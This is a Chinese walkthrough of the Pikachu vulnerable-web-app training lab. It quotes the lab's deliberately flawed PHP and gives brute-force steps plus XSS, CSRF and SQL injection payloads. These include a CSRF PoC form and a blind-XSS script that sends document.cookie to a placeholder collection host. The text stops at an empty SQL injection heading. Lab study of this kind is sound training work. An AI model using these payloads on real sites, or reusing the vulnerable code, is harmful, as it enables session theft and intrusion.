








# pikachu-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**前言**

优秀的 web 基础靶场,与 dvwa 相比 dvwa 更适合教学,pikachu 漏洞种类更多,建议通关顺序 dvwa --> pikachu

**靶场项目地址**
- https://github.com/zhuifengshaonianhanlu/pikachu

**知识点**
- [Burte Force](#burte_force)
    - [基于表单的暴力破解](#基于表单的暴力破解)
    - [验证码绕过(on server)](#验证码绕过(on_server))
    - [验证码绕过(on client)](#验证码绕过(on_client))
    - [token防爆破?](#token防爆破?)
- [XSS](#xss)
    - [反射型 xss(get)](#反射型xss(get))
    - [反射性 xss(post)](#反射性xss(post))
    - [存储型 xss](#存储型xss)
    - [DOM 型 xss](#dom型xss)
    - [DOM 型 xss-x](#dom型xss-x)
    - [xss 之盲打](#xss之盲打)
    - [xss 之过滤](#xss之过滤)
    - [xss 之 htmlspecialchars](#xss之htmlspecialchars)
    - [xss 之 href 输出](#xss之href输出)
    - [xss 之 js 输出](#xss之js输出)
- [CSRF](#csrf)
    - [CSRF(get)](#csrf(get))
    - [CSRF(POST)](#csrf(post))
    - [CSRF Token](#csrf_token)
- [Sql Inject](#sql_inject)
    - [数字型注入(post)](#数字型注入(post))
    - [字符型注入(get)](#字符型注入(get))
    - [搜索型注入](#搜索型注入)
    - [xx 型注入](#xx型注入)
    - ["insert/update" 注入](#"insert/update"注入)
    - ["delete" 注入](#"delete"注入)
    - ["http header" 注入](#"http_header"注入)
    - [盲注(base on boolian)](#盲注(base_on_boolian))
    - [盲注(base on time)](#盲注(base_on_time))
    - [宽字节注入](#宽字节注入)
- [RCE](#rce)
    - [exec "ping"](#exec_"ping")
    - [exec "eval"](#exec_"eval")
- [File Inclusion](#file_inclusion)
    - [本地文件包含](#本地文件包含)
    - [远程文件包含](#远程文件包含)
- [Unsafe Filedownload](#unsafe_filedownload)
- [Unsafe Fileupload](#unsafe_fileupload)
    - [client check](#client_check)
    - [MIME type](#mime_type)
    - [getimagesize](#getimagesize)
- [Over Permission](#over_permission)
    - [水平越权](#水平越权)
    - [垂直越权](#垂直越权)
- [../../ 目录遍历](#目录遍历)
- [敏感信息泄露](#敏感信息泄露)
- [PHP 反序列化](#php反序列化)
- [XXE](#xxe)
- [URL 重定向](#url重定向)
- [SSRF](#ssrf)
    - [SSRF(curl)](#ssrf(curl))
    - [SSRF(file_get_content)](#ssrf(file_get_content))

**实验环境**

`环境仅供参考`

- phpstudy :http://phpstudy.php.cn/
- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali 4.19.0-kali3-amd64
- pikachu - Commits on Feb 9, 2019

---

## 搭建/使用

**windows**
1. 把下载下来的 pikachu 文件夹放到 web 服务器根目录下;
2. 根据实际情况修改 inc/config.inc.php 里面的数据库连接配置;
3. 访问 http://x.x.x.x/pikachu ,会有一个红色的热情提示"欢迎使用,pikachu 还没有初始化,点击进行初始化安装!",点击即可完成安装

---

## Burte_Force

"暴力破解"是一攻击具手段,在web攻击中,一般会使用这种手段对应用系统的认证信息进行获取. 其过程就是使用大量的认证信息在认证接口进行尝试登录,直到得到正确的结果. 为了提高效率,暴力破解一般会使用带有字典的工具来进行自动化操作.

理论上来说,大多数系统都是可以被暴力破解的,只要攻击者有足够强大的计算能力和时间,所以断定一个系统是否存在暴力破解漏洞,其条件也不是绝对的. 我们说一个web应用系统存在暴力破解漏洞,一般是指该web应用系统没有采用或者采用了比较弱的认证安全策略,导致其被暴力破解的"可能性"变的比较高. 这里的认证安全策略, 包括:
1. 是否要求用户设置复杂的密码;
2. 是否每次认证都使用安全的验证码(想想你买火车票时输的验证码～)或者手机otp;
3. 是否对尝试登录的行为进行判断和限制(如:连续5次错误登录,进行账号锁定或IP地址锁定等);
4. 是否采用了双因素认证;

...等等.千万不要小看暴力破解漏洞,往往这种简单粗暴的攻击方式带来的效果是超出预期的!

### 基于表单的暴力破解

**服务器端核心代码**
```php
//典型的问题,没有验证码,没有其他控制措施,可以暴力破解
if(isset($_POST['submit']) && $_POST['username'] && $_POST['password']){

    $username = $_POST['username'];
    $password = $_POST['password'];
    $sql = "select * from users where username=? and password=md5(?)";
    $line_pre = $link->prepare($sql);

    $line_pre->bind_param('ss',$username,$password);

    if($line_pre->execute()){
        $line_pre->store_result();
        if($line_pre->num_rows>0){
            $html.= '<p> login success</p>';

        } else{
            $html.= '<p> username or password is not exists～</p>';
        }

    } else{
        $html.= '<p>执行错误:'.$line_pre->errno.'错误信息:'.$line_pre->error.'</p>';
    }

}
```

**漏洞利用**

1. 进入皮卡丘靶场，点进 暴力破解 -> 基于表单的暴力破解;
2. 在账户名和密码栏中随意输入一对账号和密码，如 0 / 0 ;  `如果空着直接登录，抓到的包会有问题，返回的长度会都一样`
3. 点击 login，回到 Burp 中查看抓到的数据包，右击选择 'Send to Intruder'，
4. 在 Intruder -> Options 中，攻击类型 Attack type 中选择 Cluster bomb(集群爆破)，右侧 clear 清除标记；
5. 双击选中先前登录输入的字符位置，将其 add 进字典载入的选项；  `注意在载入设置中，对账户名和密码两处都要载入字典进行爆破`
6. 全部设置好后，点击右上的 Start attack，开始爆破。
7. 观察返回的结果页面，点击 Length，可以看到有几个返回长度值特殊的输入，这几组大概率就是被爆破出来的正确账户和密码。

### 验证码绕过(on_server)

**服务器端核心代码**
```php
$html="";
if(isset($_POST['submit'])) {
    if (empty($_POST['username'])) {
        $html .= "<p class='notice'>用户名不能为空</p>";
    } else {
        if (empty($_POST['password'])) {
            $html .= "<p class='notice'>密码不能为空</p>";
        } else {
            if (empty($_POST['vcode'])) {
                $html .= "<p class='notice'>验证码不能为空哦!</p>";
            } else {
//              验证验证码是否正确
                if (strtolower($_POST['vcode']) != strtolower($_SESSION['vcode'])) {
                    $html .= "<p class='notice'>验证码输入错误哦!</p>";
                    //应该在验证完成后,销毁该$_SESSION['vcode']
                }else{

                    $username = $_POST['username'];
                    $password = $_POST['password'];
                    $vcode = $_POST['vcode'];

                    $sql = "select * from users where username=? and password=md5(?)";
                    $line_pre = $link->prepare($sql);

                    $line_pre->bind_param('ss',$username,$password);

                    if($line_pre->execute()){
                        $line_pre->store_result();
                        //虽然前面做了为空判断,但最后,却没有验证验证码!!!
                        if($line_pre->num_rows()==1){
                            $html.='<p> login success</p>';
                        }else{
                            $html.= '<p> username or password is not exists～</p>';
                        }
                    }
                    else{
                        $html.= '<p>执行错误:'.$line_pre->errno.'错误信息:'.$line_pre->error.'</p>';
                    }
                }
            }
        }
    }
}
```
服务器端只检查了一次验证码,而后未将验证码过期处理,一直有效,可验证一次重复爆破

**漏洞利用**

burpsuite,抓个验证码输入正确的请求,就可以重复爆破了


### 验证码绕过(on_client)

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['username'] && $_POST['password']) {
        $username = $_POST['username'];
        $password = $_POST['password'];
        $sql = "select * from users where username=? and password=md5(?)";
        $line_pre = $link->prepare($sql);


        $line_pre->bind_param('ss', $username, $password);

        if ($line_pre->execute()) {
            $line_pre->store_result();
            if ($line_pre->num_rows > 0) {
                $html .= '<p> login success</p>';

            } else {
                $html .= '<p> username or password is not exists～</p>';
            }

        } else {
            $html .= '<p>执行错误:' . $line_pre->errno . '错误信息:' . $line_pre->error . '</p>';
        }

    }else{
        $html .= '<p> please input username and password～</p>';
    }
}
```

**客户端端核心代码**
```html
<script language="javascript" type="text/javascript">
    var code; //在全局 定义验证码
    function createCode() {
        code = "";
        var codeLength = 5;//验证码的长度
        var checkCode = document.getElementById("checkCode");
        var selectChar = new Array(0, 1, 2, 3, 4, 5, 6, 7, 8, 9,'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z');//所有候选组成验证码的字符,当然也可以用中文的

        for (var i = 0; i < codeLength; i++) {
            var charIndex = Math.floor(Math.random() * 36);
            code += selectChar[charIndex];
        }
        //alert(code);
        if (checkCode) {
            checkCode.className = "code";
            checkCode.value = code;
        }
    }

    function validate() {
        var inputCode = document.querySelector('#bf_client .vcode').value;
        if (inputCode.length <= 0) {
            alert("请输入验证码!");
            return false;
        } else if (inputCode != code) {
            alert("验证码输入错误!");
            createCode();//刷新验证码
            return false;
        }
        else {
            return true;
        }
    }


    createCode();
</script>
```
客户端做验证码验证,服务器端无验证

**漏洞利用**

burp 抓个正确的包,把验证码部分直接去掉就可以继续爆破了

### token防爆破?

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['username'] && $_POST['password'] && $_POST['token']==$_SESSION['token']){

    $username = $_POST['username'];
    $password = $_POST['password'];
    $sql = "select * from users where username=? and password=md5(?)";
    $line_pre = $link->prepare($sql);


    $line_pre->bind_param('ss',$username,$password);

    if($line_pre->execute()){
        $line_pre->store_result();
        if($line_pre->num_rows>0){
            $html.= '<p> login success</p>';

        } else{
            $html.= '<p> username or password is not exists～</p>';
        }

    } else{
        $html.= '<p>执行错误:'.$line_pre->errno.'错误信息:'.$line_pre->error.'</p>';
    }

}

//生成token
set_token();
```

**什么是token**

简单的说 token 是由服务端生成的一串字符串,作为客户端向服务端请求的一个标识.在前端使用用户名/密码向服务端发送请求认证,服务端认证成功,那么在服务端会返回 token 给前端,前端在每次请求时会带上服务端发来的 token 来证明自己的合法性.

**漏洞利用**

burp 抓个正确的包,将以下两个设置为变量


在 Option 中的 Grep Extract 中点击 Add,在点击 Refetch response,找到返回的包,找到来自服务器返回的 token,为了便于查找可以在最下方的输入栏输入 token 直接找到 token 的值


选中 token 的值,复制,同时在选中状态下点击确定,同时在 Option 中的最下方勾选 always,并将线程设置为 1 ,如果不将线程设为1会出现报错

接下来设置 Payloads,对密码的 Payloads 直接导入字典.


对 token 的 Payloads 的参数设置为 Recursive grep,同时在 Payload Options 选中第一项,并将之前复制的 token 值输入到下面的输入栏中.开始爆破.


后面略

---

## XSS

Cross-Site Scripting 简称为"CSS",为避免与前端叠成样式表的缩写"CSS"冲突,故又称 XSS.一般XSS可以分为如下几种常见类型:
1. 反射性XSS;
2. 存储型XSS;
3. DOM型XSS;

XSS 漏洞一直被评估为 web 漏洞中危害较大的漏洞,在 OWASP TOP10 的排名中一直属于前三的江湖地位.

XSS 是一种发生在前端浏览器端的漏洞,所以其危害的对象也是前端用户.

形成 XSS 漏洞的主要原因是程序对输入和输出没有做合适的处理,导致"精心构造"的字符输出在前端时被浏览器当作有效代码解析执行从而产生危害.

因此在 XSS 漏洞的防范上,一般会采用"对输入进行过滤"和"输出进行转义"的方式进行处理:
1. 输入过滤:对输入进行过滤,不允许可能导致 XSS 攻击的字符输入;
2. 输出转义:根据输出点的位置对输出到前端的内容进行适当转义;

**跨站脚本漏洞简单的测试流程**
1. 在目标站点上找到输入点,比如查询接口,留言板等;
2. 输入一组"特殊字符+唯一识别字符",点击提交后,查看返回的源码,是否有做对应的处理;
3. 通过搜索定位到唯一字符,结合唯一字符前后语法确认是否可以构造执行 js 的条件(构造闭合);提交构造的脚本代码,看是否可以成功执行,如果成功执行则说明存在 XSS 漏洞;

### 反射型xss(get)


**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入'kobe'试试-_-</p>";
    }else{
        if($_GET['message']=='kobe'){
            $html.="<p class='notice'>愿你和{$_GET['message']}一样,永远年轻,永远热血沸腾!</p>";
        }else{
            $html.="<p class='notice'>who is {$_GET['message']},i don't care!</p>";
        }
    }
}
```

**漏洞利用**

按流程来,为了找到输入点,先提交一组特殊字符+唯一识别字符,再去查看源代码


下图说明输入的字符被直接输入到了这个 P 标签中,这里就存在一个输出点

F12 修改前端数量限制,输入 payload `<script>alert('沵咑礷赇潒礤蒣騉')</script>` 点击提交


刷新一次后就不会进行弹窗,说这仅仅是一次性.

### 反射性xss(post)

POST 请求区别与 GET 请求,POST 请求不能从 URL 让用户向服务器提交数据.所以为了进行注入,需要让用户代替攻击者提交 POST 请求,这就需要攻击者自己搭建站点,然后再站点内写一个 POST 表单,将我们搭建出的连接发给用户,这样就能让用户帮攻击者提交 POST 请求发给存在 XSS 漏洞的中.这样就能窃取到用户的 cookie,就能伪造用户登陆达到破坏的目的.

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if(empty($_POST['message'])){
        $html.="<p class='notice'>输入'kobe'试试-_-</p>";
    }else{

        //下面直接将前端输入的参数原封不动的输出了,出现xss
        if($_POST['message']=='kobe'){
            $html.="<p class='notice'>愿你和{$_POST['message']}一样,永远年轻,永远热血沸腾!</p>";
        }else{
            $html.="<p class='notice'>who is {$_POST['message']},i don't care!</p>";
        }
    }
}
```

**漏洞利用**

和上面 get 型一样,但这里不需要 F12 修改输入限制,输入 payload `<script>alert('沵咑礷赇潒礤蒣騉')</script>` 点击提交

### 存储型xss

**服务器端核心代码**
```php
if(array_key_exists("message",$_POST) && $_POST['message']!=null){
    $message=escape($link, $_POST['message']);
    $query="insert into message(content,time) values('$message',now())";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)!=1){
        $html.="<p>数据库出现异常,提交失败!</p>";
    }
}

if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){

    //彩蛋:虽然这是个存储型xss的页面,但这里有个delete的sql注入
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        echo "<script type='text/javascript'>document.location.href='xss_stored.php'</script>";
    }else{
        $html.="<p id='op_notice'>删除失败,请重试并检查数据库是否还好!</p>";

    }

}
```

**漏洞利用**

同之前的思路,先输入一组特殊字符+唯一识别字符,查看源代码,能发现输出点和反射性 XSS 是相同的.



输入 payload `<script>alert('老铁,欧里给!')</script>` 点击提交

再刷新一次,还是会返回设置的 payload 中输入的内容,说明会将插入的内容会被存到数据库中,会造成持续性的攻击.再源代码里也能看到被插入进的 payload.

### DOM型xss

**什么是 DOM**

DOM 全称是 Document Object Model,也就是文档对象模型.我们可以将 DOM 理解为,一个与系统平台和编程语言无关的接口,程序和脚本可以通过这个接口动态地访问和修改文档内容、结构和样式.当创建好一个页面并加载到浏览器时,DOM 就悄然而生,它会把网页文档转换为一个文档对象,主要功能是处理网页内容.故可以使用 Javascript 语言来操作 DOM 以达到网页的目的.

**什么是 DOM 型 XSS**

首先 DOM 型 XSS 其实是一种特殊类型的反射型 XSS,它是基于 DOM 文档对象模型的一种漏洞.
在网站页面中有许多页面的元素,当页面到达浏览器时浏览器会为页面创建一个顶级的 Document
object 文档对象,接着生成各个子文档对象,每个页面元素对应一个文档对象,每个文档对象包含属性、方法和事件.可以通过 JS 脚本对文档对象进行编辑从而修改页面的元素.也就是说,客户端的脚本程序可以通过 DOM 来动态修改页面内容,从客户端获取 DOM 中的数据并在本地执行.基于这个特性,就可以利用 JS 脚本来实现 XSS 漏洞的利用

**核心代码**
```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = document.getElementById("text").value;
                        document.getElementById("dom").innerHTML = "<a href='"+str+"'>what do you see?</a>";
                    }
                    //试试:'>
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <input id="text" name="text" type="text"  value="" />
                <input id="button" type="button" value="click me!" onclick="domxss()" />
                <div id="dom"></div>
            </div>
```

**漏洞利用**

输入`test#!12` 测试,F12 查看源代码,找出可注入点是 `<a href="test#!12">what do you see?</a>` ,对 href 构造一个闭合,这样就能实现对 a 标签的一个"控制"的作用.

payload 构造如下 `'> <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`


### DOM型xss-x

**核心代码**
```html
<div id="xssd_main">
                <script>
                    function domxss(){
                        var str = window.location.search;
                        var txss = decodeURIComponent(str.split("text=")[1]);
                        var xss = txss.replace(/\+/g,' ');
//                        alert(xss);

                        document.getElementById("dom").innerHTML = "<a href='"+xss+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试:'>
                    //试试:' onclick="alert('xss')">,闭合掉就行
                </script>
                <!--<a href="" onclick=('xss')>-->
                <form method="get">
                <input id="text" name="text" type="text"  value="" />
                <input id="submit" type="submit" value="请说出你的伤心往事"/>
                </form>
                <div id="dom"></div>
            </div>
```

**漏洞利用**

同之前的步骤,查看源代码,区别第一个 DOM 演示,输入是从 URL 的参数中获取的(类似于反射型),但输出任在 a 标签里,故和之前的方法相同设置 payload

payload 构造如下 `'> <marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

### xss之盲打

**服务器端核心代码**
```php
if(array_key_exists("content",$_POST) && $_POST['content']!=null){
    $content=escape($link, $_POST['content']);
    $name=escape($link, $_POST['name']);
    $time=$time=date('Y-m-d g:i:s');
    $query="insert into xssblind(time,content,name) values('$time','$content','$name')";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        $html.="<p>谢谢参与,阁下的看法我们已经收到!</p>";
    }else {
        $html.="<p>ooo.提交出现异常,请重新提交</p>";
    }
}
```

XSS盲打就是攻击者在不知道后台是否存在 xss 漏洞的情况下,提交恶意 JS 代码在类似留言板等输入框后,所展现的后台位置的情况下,网站采用了攻击者插入的恶意代码,当后台管理员在操作时就会触发插入的恶意代码,从而达到攻击者的目的.

**漏洞利用**

输入 payload `<script>alert('老铁,欧里给!')</script>` ,观察到可注入点,以管理员的身份登入后台,就会出现弹窗,这就是一个简单的盲打.通过 xss 钓鱼的方法就能获取到 cookie,就能伪造管理员身份进行登陆了.


- 后台: http://<IP地址!!!>/pikachu/vul/xss/xssblind/admin_login.php
- 账号密码: admin 123456

到 pikachu 平台下管理工具,进去初始化平台

盗 cookie payload `<script>document.location = 'http://<xss平台地址>/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>`


### xss之过滤

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

这里注释写的很清楚了,不多说了

**漏洞利用**

过滤了 `<script` ,还有很多的标签可以用,再说还有很多绕过方法

- payload: `<marquee loop="99" onfinish=alert(1)>hack the planet</marquee>`

- payload: `<ScrIpT>alert('老铁,欧里给!')</sCriPt>`

### xss之htmlspecialchars

**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>输入点啥吧!</p>";
    }else {
        //使用了htmlspecialchars进行处理,是不是就没问题了呢,htmlspecialchars默认不对'处理
        $message=htmlspecialchars($_GET['message']);
        $html1.="<p class='notice'>你的输入已经被记录:</p>";
        //输入的内容被处理后输出到了input标签的value属性里面,试试:' onclick='alert(111)'
//        $html2.="<input class='input' type='text' name='inputvalue' readonly='readonly' value='{$message}' style='margin-left:120px;display:block;background-color:#c0c0c0;border-style:none;'/>";
        $html2.="<a href='{$message}'>{$message}</a>";
    }
}
```

- **htmlspecialchars(string,flags,character-set,double_encode)**

    htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体.

    htmlspecialchars() 函数把预定义的字符转换为 HTML 实体,从而使XSS攻击失效.但是这个函数默认配置不会将单引号和双引号过滤,只有设置了quotestyle规定如何编码单引号和双引号才能会过滤掉单引号

**漏洞利用**

先输入被预定义的字符 `&<s>"11<>11'123<123>`,在前端查看代码观察有是否有过滤掉单引号或双引号


可见单引号后面的出来了

构造个 payload `'onclick='alert(1)'`


### xss之href输出

**服务器端核心代码**
```php
if(isset($_GET['submit'])){
    if(empty($_GET['message'])){
        $html.="<p class='notice'>叫你输入个url,你咋不听?</p>";
    }
    if($_GET['message'] == 'www.baidu.com'){
        $html.="<p class='notice'>我靠,我真想不到你是这样的一个人</p>";
    }else {
        //输出在a标签的href属性里面,可以使用javascript协议来执行js
        //防御:只允许http,https,其次在进行htmlspecialchars处理
        $message=htmlspecialchars($_GET['message'],ENT_QUOTES);
        $html.="<a href='{$message}'> 阁下自己输入的url还请自己点一下吧</a>";
    }
}
```

**漏洞利用**

先输入一些字符串 `&<s>"11<>11'123<123>`,查看前端的源代码,发现输入的字符都被转义了.但 `<a>` 标签的 href 属性也是可以执行 JS 表达式的


构造个 payload `Javascript:alert('1')`


### xss之js输出

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['message'] !=null){
    $jsvar=$_GET['message'];
//    $jsvar=htmlspecialchars($_GET['message'],ENT_QUOTES);
    if($jsvar == 'tmac'){
        $html.="";
    }
}
```
```js
<script>
    $ms='<?php echo $jsvar;?>';
    if($ms.length != 0){
        if($ms == 'tmac'){
            $('#fromjs').text('tmac确实厉害,看那小眼神..')
        }else {
//            alert($ms);
            $('#fromjs').text('无论如何不要放弃心中所爱..')
        }

    }
</script>
```

**漏洞利用**

先输入一些字符串 `&<s>"11<>11'123<123>`,查看前端的源代码


对于 JS 代码,我们需要构造一个闭合,根据显示的代码构造 payload `abc'</script><script>alert(1)</script>`


---

## CSRF

**如何确认存在一个 CSRF 漏洞**
1. 对目标网站增删改的地方进行标记,并观察其逻辑,判断请求是否可以被伪造

    比如修改管理员账号时,并不需要验证旧密码,导致请求容易被伪造;

    比如对于敏感信息的修改并没有使用安全的 token 验证,导致请求容易被伪造;

2. 确认凭证的有效期(这个问题会提高CSRF被利用的概率)

    虽然退出或者关闭了浏览器,但存在本地的 cookie 仍然有效,或者 session 并没有及时过期,导致 CSRF 攻击变的简单

### CSRF(get)

首先进行登陆,修改一下个人信息,并到 Brup Suite 上进行抓包,将抓到的 URL 进行修改(由自己作为攻击者),再发送给攻击目标(由自己作为被攻击者)


**漏洞利用**

稍微修改一下,测试

`http://<服务器IP!!!>/pikachu/vul/csrf/csrfget/csrf_get_edit.php?sex=futa&phonenum=110&add=123&email=lili%40pikachu.com1&submit=submit`


### CSRF(POST)

同样,登陆,修改一下个人信息,并到 Brup Suite 上进行抓包,对于 POST型,请求已经不能通过修改 URL 来借用用户权限,那么需要自己做一个表单,再返回到提交页面来完成修改.

**漏洞利用**

直接从 burp 生成 poc 表单


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://<IP address>/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="futa1" />
      <input type="hidden" name="phonenum" value="1110" />
      <input type="hidden" name="add" value="1213" />
      <input type="hidden" name="email" value="lil1i&#64;pikachu&#46;com1" />
      <input type="hidden" name="submit" value="submit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


### CSRF_Token

要抵御 CSRF,关键在于在请求中放入攻击者不能伪造的信息,且该信息不存在于 cookie 之中.故每次请求都可以加入一个随机码,且后台要对这个随机码进行验证.


**漏洞利用**

如果做过 dvwa 同级的 csrf 应该清楚,这里可以使用 xss 来配合盗取 token 来造成 csrf,这里略

---

## Sql_Inject

在 owasp 发布的 top10 排行榜里,注入漏洞一直是危害排名第一的漏洞,其中注入漏洞里面首当其冲的就是数据库注入漏洞.

`一个严重的SQL注入漏洞,可能会直接导致一家公司破产!`

SQL 注入漏洞主要形成的原因是在数据交互中,前端的数据传入到后台处理时,没有做严格的判断,导致其传入的"数据"拼接到 SQL 语句中后,被当作 SQL 语句的一部分执行. 从而导致数据库受损(被脱裤、被删除、甚至整个服务器权限沦陷).

在构建代码时,一般会从如下几个方面的策略来防止SQL注入漏洞:
1. 对传进 SQL 语句里面的变量进行过滤,不允许危险字符传入;
2. 使用参数化(Parameterized Query 或 Parameterized Statement);
3. 还有就是,目前有很多ORM框架会自动使用参数化解决注入问题,但其也提供了"拼接"的方式,所以使用时需要慎重!

### 数字型注入(post)

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['id']!=null){
    //这里没有做任何处理,直接拼到select里面去了,形成Sql注入
    $id=$_POST['id'];
    $query="select username,email from member where id=$id";
    $result=execute($link, $query);
    //这里如果用==1,会严格一点
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $username=$data['username'];
            $email=$data['email'];
            $html.="<p class='notice'>hello,{$username} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的user id不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

抓包,查看 post 参数


构造 payload

`1' or '1' ='1` 报错

`1 or 1 =1` 未报错,存在数字型注入


### 字符型注入(get)

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型,需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

**漏洞利用**

构造 payload

`http://<IP address!!!>/pikachu/vul/sqli/sqli_str.php?name=1' or '1' ='1&submit=%E6%9F%A5%E8%AF%A2`


### 搜索型注入

**服务器端核心代码**
```php
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理,直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配,需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下:<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username:{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
    }else{

        $html1.="<p class='notice'>0o...没有搜索到你输入的信息!</p>";
    }
}
```

**漏洞利用**

